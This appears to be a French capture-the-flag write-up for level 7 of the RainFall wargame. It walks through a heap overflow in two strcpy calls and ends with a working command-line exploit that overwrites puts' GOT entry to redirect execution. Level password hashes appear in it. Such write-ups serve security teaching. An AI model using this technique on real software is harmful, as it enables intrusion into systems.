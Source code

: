 # Level 7

pass : `f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d`

## Sources :

```c
#include <stdlib.h>
#include <string.h>
#include <stdio.h>
#include <time.h>

char c[80];  // 0x08049960 / size : 0x50

void	m() {  // 0x080484f4
	printf("%s - %d", c, time(0));
}

int		main(int ac, char **av) {  // 0x08048521
  char **b;  // esp+0x18
	char **a;  // esp+0x1c
  
	a = malloc(2 * sizeof(char *));
	a[0] = 1;
	a[1] = malloc(8);

	b = malloc(2 * sizeof(char *));
	b[0] = 2;
	b[1] = malloc(8);

	strcpy(a[1], av[1]);
	strcpy(b[1], av[2]);

	fgets(c, 68, fopen("/home/user/level8/.pass", "r"));  // 0x44

	// 0x8048703 on .rodata segment
	puts("~~");

	return (0);
}
```

## Recherche :

> On veut remplacer l'appel de `puts("~~")` par `m()`

Pour faire ça, on va exploiter les deux appels à `strcpy`.
En effet, `strcpy` copy à l'adresse indiqué par le premier élément la chaine contenue dans le second élément.

Ce qu'on veut donc, c'est `&puts` devienne `&m`.

- `m` se trouve à l'adresse **`0x080484f4`**

```gdb
(gdb) disas puts
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:     jmp    *0x8049928
   0x08048406 <+6>:     push   $0x28
   0x0804840b <+11>:    jmp    0x80483a0
End of assembler dump.
```

- pour `puts`, c'est un peu plus délicat, dans un `jmp` est fait, on va donc choisir directement l'adresse du `jmp`, soit **`0x08049928`**.



Ça, c'est ce que doit faire le second `strcpy`.
`strcpy(b[1], av[2]);`
On le remplacera par :

- `b[1]` = `0x08049928` (`puts`)
- `av[2]` = `0x080484f4` (`m`) 



Le premier lui fait actuellement :
`strcpy(a[1], av[1]);`
On veut faire en sorte d'écrire dans `b[1]`, et y mettre la valeure de l'adresse de `puts`.

Or `a` et `b` sont contingent en mémoire, donc si on écrit suffisement loin dans `a`, on se mettra à écrire dans `b`.


```gdb
(gdb) r ABCDEFGHIJKLMNOPQRSTUVWXYZ abcd
Starting program: /home/user/level7/level7 ABCDEFGHIJKLMNOPQRSTUVWXYZ abcd

Breakpoint 1, 0x080485a0 in main ()
(gdb) ni
0x080485a5 in main ()
(gdb) x/x $esp+0x18
0xbffff708:     0x0804a028
(gdb) x/2x 0x0804a028
0x804a028:      0x54535251      0x58575655
```

Ici, on voit bien que le premier agument `ABCDEFGHIJKLMNOPQRSTUVWXYZ` a été écrit dans `b` (`$esp+0x18`), et du coup à partir de la lettre 'U' (`0x55`), 20<sup>ème</sup> lettre dans `b[1]`.

Parfait !
On a tout pour notre script :
`./level7 $(python -c 'print "A"*20+"\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')`

## Exploit :

```bash
level7@RainFall:~$ ./level7 $(python -c 'print "A"*20+"\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1592469485
```
